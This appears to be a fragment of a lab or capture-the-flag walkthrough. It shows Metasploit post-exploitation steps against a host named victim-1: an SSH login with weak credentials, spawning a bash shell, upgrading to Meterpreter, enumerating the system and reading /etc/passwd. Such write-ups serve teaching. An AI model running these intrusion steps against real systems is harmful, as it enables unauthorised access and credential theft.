 ```bash
sessions
	1 shell unknown  SSH jackie:password (192.15.244.3:22)
sessions 1
/bin/bash -i
pwd
	/home/jackie
whoami
	jackie

cat /etc/*issue
	Ubuntu 18.04.3 LTS \n \l
uname -r

# CTRL+Z
```

```bash
sessions -u 1
sessions
sessions 2

sysinfo
    Computer     : 192.15.244.3
    OS           : Ubuntu 18.04 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
getuid
	Server username: no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000)
```

```bash
shell
/bin/bash -i
cat /etc/passwd
```
